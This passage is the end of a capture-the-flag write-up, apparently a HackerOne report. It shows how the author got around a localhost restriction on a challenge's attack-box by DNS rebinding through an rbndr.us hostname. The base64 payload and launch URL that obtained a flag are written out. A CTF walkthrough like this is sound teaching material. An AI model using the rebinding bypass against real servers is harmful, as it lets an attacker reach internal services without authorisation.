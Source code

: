 Tried to attack local host 127.0.0.1 but it didnt't success due to restriction.

{F1131257}

But it's possible to trick the server by using DNS Rebinding technique, after searching a while , found this [rdnr repo](https://github.com/taviso/rbndr) which we can use to bypass.By checking with host cmmand,

7f000001.c0a80001.rbndr.us  resolves  to 127.0.0.1 and 192.168.0.1 randomly.

Let's see does it work.
```
{"target":"7f000001.c0a80001.rbndr.us","hash":"de9d82d4ae9a61660701e7e1844ea643"}    >  eyJ0YXJnZXQiOiI3ZjAwMDAwMS5jMGE4MDAwMS5yYm5kci51cyIsImhhc2giOiI2MTQyMmI4MDJhMWQ2ZGRlZDJjZDdhNGNmYTgyYTExMiJ9

https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiI3ZjAwMDAwMS5jMGE4MDAwMS5yYm5kci51cyIsImhhc2giOiJkZTlkODJkNGFlOWE2MTY2MDcwMWU3ZTE4NDRlYTY0MyJ9
```
By making above request, once we hit to grinch's local box, we could take down his network completely and got the flag!!!!!

{F1131255}

>Flag 12 -: flag{ba6586b0-e482-41e6-9a68-caf9941b48a0}


Thanks for providing awesome ctf, learned a lots.

## Impact

..

## Attachments
- attackbox-password.png
- attackbox-username.png
- Flag_-_7.png
- Flag_-_8.png
- Flag-3.png
- Flag-4.png
- Flag-9.png
- Flag-6.png
- Flag-10.png
- Flag-11.png
- Flag-12.png
- Invalid-uuid.png
- local-attack-failed.png
- leaking-user-sessions.png
- str_replace_bypass.png
- Logged-in.png
- templats-dir.png
- zip-crack.png
